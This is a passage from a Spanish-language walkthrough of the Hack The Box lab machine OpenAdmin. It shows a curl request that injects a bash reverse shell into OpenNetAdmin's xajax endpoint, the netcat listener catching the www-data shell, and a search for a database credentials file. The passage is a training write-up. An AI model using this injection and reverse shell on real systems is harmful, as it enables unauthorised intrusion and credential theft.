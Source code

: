 ```bash
❯ curl --silent -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;bash -c 'bash -i >%26 /dev/tcp/10.10.14.27/443 0>%261'&xajaxargs[]=ping" "http://10.10.10.171/ona/"
```

```bash
❯ nc -nlvp 443
listening on [any] 443 ...

connect to [10.10.14.27] from (UNKNOWN) [10.10.10.171] 40406
bash: cannot set terminal process group (1300): Inappropriate ioctl for device
bash: no job control in this shell
www-data@openadmin:/opt/ona/www$ 
www-data@openadmin:/opt/ona/www$ whoami
whoami
www-data
www-data@openadmin:/opt/ona/www$
```

Ya nos encontramos como el usuario **www-data** y antes de hacer cualquier cosa, vamos a hacer un [Tratamiento de la tty](/posts/tratamiento-tty). Ahora dentro del directorio en donde nos encontramos, ya vemos algunas cosas curiosas, como archivos y directorios de configuración:

```bash
www-data@openadmin:/opt/ona/www$ ls -la
total 72
drwxrwxr-x 10 www-data www-data 4096 Nov 22  2019 .
drwxr-x---  7 www-data www-data 4096 Nov 21  2019 ..
-rw-rw-r--  1 www-data www-data 1970 Jan  3  2018 .htaccess.example
drwxrwxr-x  2 www-data www-data 4096 Jan  3  2018 config
-rw-rw-r--  1 www-data www-data 1949 Jan  3  2018 config_dnld.php
-rw-rw-r--  1 www-data www-data 4160 Jan  3  2018 dcm.php
drwxrwxr-x  3 www-data www-data 4096 Jan  3  2018 images
drwxrwxr-x  9 www-data www-data 4096 Jan  3  2018 include
-rw-rw-r--  1 www-data www-data 1999 Jan  3  2018 index.php
drwxrwxr-x  5 www-data www-data 4096 Jan  3  2018 local
-rw-rw-r--  1 www-data www-data 4526 Jan  3  2018 login.php
-rw-rw-r--  1 www-data www-data 1106 Jan  3  2018 logout.php
drwxrwxr-x  3 www-data www-data 4096 Jan  3  2018 modules
drwxrwxr-x  3 www-data www-data 4096 Jan  3  2018 plugins
drwxrwxr-x  2 www-data www-data 4096 Jan  3  2018 winc
drwxrwxr-x  3 www-data www-data 4096 Jan  3  2018 workspace_plugins
www-data@openadmin:/opt/ona/www$
```

Si revisamos los archivos, no vemos nada interesante, así que vamos a realizar una busqueda para directorios `config` y vemos uno bajo `./local/config` y si le echamos un ojo, tiene un archivo `database_settings.inc.php` el cual tiene unas credenciales:

 ```bash
 www-data@openadmin:/opt/ona/www$ find \-name config 2>/dev/null
./config
./local/config
www-data@openadmin:/opt/ona/www$ cd local/config/
www-data@openadmin:/opt/ona/www/local/config$ ls -l
total 8
-rw-r--r-- 1 www-data www-data  426 Nov 21  2019 database_settings.inc.php
-rw-rw-r-- 1 www-data www-data 1201 Jan  3  2018 motd.txt.example
-rw-r--r-- 1 www-data www-data    0 Nov 21  2019 run_installer
www-data@openadmin:/opt/ona/www/local/config$ cat database_settings.inc.php 
<?php

$ona_contexts=array (
  'DEFAULT' => 
  array (
    'databases' => 
 ```